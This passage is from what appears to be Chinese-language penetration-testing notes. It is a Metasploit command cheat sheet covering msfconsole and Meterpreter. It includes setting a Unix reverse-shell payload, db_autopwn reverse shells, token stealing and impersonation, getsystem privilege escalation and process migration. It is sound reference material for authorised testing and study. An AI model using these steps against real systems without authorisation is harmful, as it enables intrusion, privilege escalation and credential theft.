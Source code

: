 ```
show payloads
set payload cmd/unix/reverse
exploit
```

## 十五．常用命令备忘


### MSFconsole  Commands

* show exploits 查看所有exploit
* show payloads 查看所有payload
* show auxiliary 查看所有auxiliary
* search name 搜索exploit等
* info 查看加载模块的信息
* use name 加载模块
* LHOST 本机IP
* RHOST 目标IP
* set function 设置选项值
* setg function  全局设置
* show options 查看选项
* show targets 查看exp可选的平台
* set target num 设置exp作用平台
* set payload payload  设置payload
* show advanced 查看高级选项
* set autorunscript migrate -f 设置自动执行指令
* check 测试是否可利用
* exploit 执行exp或模块
* exploit  -j 作为后台执行
* exploit  -z 成功后不立即打开session
* exploit  -e encoder 指定encoder
* exploit  -h  查看帮助信息
* sessions  -l -v 列出可用sessions详细信息
* sessions  -s script 在指定session执行脚本
* sessions -K 结束session
* sessions -c cmd 执行指定命令
* sessions -u sessionID 升级shell
* db_create name 创建数据库
* db_connect name   连接数据库
* db_nmap nmap扫描并导入结果
* db_autopwn -h      查看autopwn帮助
* db_autopwn -p -r -e 基于端口，反弹shell
* db_destroy 删除数据库

### Meterpreter Commands

* help 查看帮助
* run scriptname 运行脚本
* sysinfo 系统基本信息
* ls 列目录
* use priv 运行提权组件
* ps 列进程
* migrate PID PID迁移
* use incognito token窃取
* list_tokens -u 查看可用用户token
* list_tokens -g 查看可用组token
* impersonate_token DOMAIN_NAME\\USERNAME 模仿token
* steal_token PID 窃取PID所属token并模仿
* drop_token 停止模仿token
* getsystem 获取SYSTEM权限
* shell 运行shell
* execute -f cmd.exe -i 交互式运行cmd
* execute -f cmd.exe -i -t 使用可用token运行